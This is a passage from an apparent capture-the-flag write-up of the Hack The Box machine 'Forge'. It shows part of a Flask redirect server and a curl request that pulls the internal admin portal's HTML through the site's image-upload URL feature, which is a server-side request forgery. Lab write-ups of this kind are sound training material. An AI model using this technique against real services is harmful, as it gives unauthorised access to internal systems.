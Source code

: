 ```python
    app.run(host='0.0.0.0', port=port)
```

When we start this, the website would generate a link to an 'image', which would always fail to display because it's not an image.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (11).png" alt=""><figcaption></figcaption></figure>

But, when we `curl` it, we can see it contains the page contents of the admin panel:

```markup
$ curl http://forge.htb/uploads/mIIQuMY5OzWN8Fa2f5uF
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

Let's read the announcements on the site.&#x20;
